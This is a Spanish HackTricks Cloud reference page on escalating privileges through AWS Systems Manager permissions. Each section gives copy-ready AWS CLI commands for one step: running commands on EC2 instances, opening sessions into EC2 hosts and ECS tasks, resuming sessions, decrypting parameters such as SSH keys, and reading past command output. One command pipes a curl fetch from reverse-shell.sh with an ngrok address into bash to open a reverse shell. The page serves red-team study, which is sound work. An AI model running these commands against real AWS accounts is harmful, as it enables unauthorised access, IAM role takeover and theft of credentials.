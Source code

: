 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Para más información sobre SSM, consulta:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un atacante con el permiso **`ssm:SendCommand`** puede **ejecutar comandos en instancias** que ejecutan el Amazon SSM Agent y **comprometer el IAM Role** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
En caso de que estés utilizando esta técnica para escalar privilegios dentro de una instancia EC2 ya comprometida, podrías simplemente capturar el rev shell localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impacto Potencial:** Privesc directo a los roles IAM de EC2 adjuntos a instancias en ejecución con agentes SSM en funcionamiento.

### `ssm:StartSession`

Un atacante con el permiso **`ssm:StartSession`** puede **iniciar una sesión similar a SSH en instancias** que ejecutan el agente SSM de Amazon y **comprometer el rol IAM** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Para iniciar una sesión, necesitas tener instalado el **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impacto Potencial:** Privesc directo a los roles de IAM de EC2 adjuntos a instancias en ejecución con SSM Agents en funcionamiento.

#### Privesc a ECS

Cuando las **tareas de ECS** se ejecutan con **`ExecuteCommand` habilitado**, los usuarios con suficientes permisos pueden usar `ecs execute-command` para **ejecutar un comando** dentro del contenedor.\
Según [**la documentación**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), esto se hace creando un canal seguro entre el dispositivo que usas para iniciar el comando “_exec_” y el contenedor objetivo con SSM Session Manager. (Se necesita el SSM Session Manager Plugin para que esto funcione)\
Por lo tanto, los usuarios con `ssm:StartSession` podrán **obtener un shell dentro de las tareas de ECS** con esa opción habilitada simplemente ejecutando:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impacto Potencial:** Privesc directo a los roles `ECS`IAM adjuntos a tareas en ejecución con `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Un atacante con el permiso **`ssm:ResumeSession`** puede re-**iniciar una sesión similar a SSH en instancias** que ejecutan el Agente SSM de Amazon con un estado de sesión SSM **desconectado** y **comprometer el Rol IAM** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impacto Potencial:** Privesc directo a los roles de IAM de EC2 adjuntos a instancias en ejecución con agentes SSM en ejecución y sesiones desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un atacante con los permisos mencionados podrá listar los **parámetros SSM** y **leerlos en texto claro**. En estos parámetros, a menudo se puede **encontrar información sensible** como claves SSH o claves API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impacto Potencial:** Encontrar información sensible dentro de los parámetros.

### `ssm:ListCommands`

Un atacante con este permiso puede listar todos los **comandos** enviados y, con suerte, encontrar **información sensible** en ellos.
```
aws ssm list-commands
```
**Impacto Potencial:** Encontrar información sensible dentro de las líneas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un atacante con estos permisos puede listar todos los **comandos** enviados y **leer la salida** generada, con la esperanza de encontrar **información sensible** en ella.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impacto Potencial:** Encontrar información sensible dentro de la salida de las líneas de comando.

### Codebuild

También puedes usar SSM para acceder a un proyecto de codebuild que se está construyendo:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
